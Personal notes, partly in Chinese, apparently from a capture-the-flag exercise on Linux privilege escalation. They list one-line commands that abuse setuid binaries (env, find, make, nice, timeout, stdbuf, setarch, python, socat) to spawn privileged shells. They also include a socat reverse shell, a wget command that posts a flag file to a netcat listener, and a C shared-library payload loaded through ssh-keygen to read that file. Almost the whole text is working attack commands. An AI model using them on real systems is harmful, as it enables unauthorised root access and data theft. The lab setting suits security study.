 strace
跟踪程序的执行函数

.env提权
env sh -p

.find
find -execv /bin/sh -p \;

.chown
chown hacker file_path
文件的用户访问权限应用到hacker。

.level50 wget
wget -i /flag

terminal1:
nc -lp 88

terminal2:
wget --post-file=/flag http://localhost:88


.level51 ssh-keygen
ssh-keygen -D shared_binary 加载运行库文件
share.c
int C_GetFunctionList()
{
    sendfile(1,open("/flag",0),0,4096);
}

1.bash
bash -p

2.env
env /bin/sh -p

3.find
find . -exec /bin/sh -p \; -quit

4.make
make -s --eval=$'x:\n\t-'"/bin/sh -p"

5.nice
nice /bin/sh -p

6.timeout
timeout 1 /bin/sh -p

7.stdbuf
stdbuf -i0 /bin/sh -p

8.setarch
setarch $(arch) /bin/sh -p

9.socat
一个终端上监听:
socat file:'/dev/tty',raw,echo=0 tcp-listen:8888

另一个终端反弹shell:
socat tcp-connect:127.0.0.1:8888 exec:'/bin/sh -p',pty,stderr

10.python
python -c 'import os; os.execl("/bin/sh", "sh", "-p")'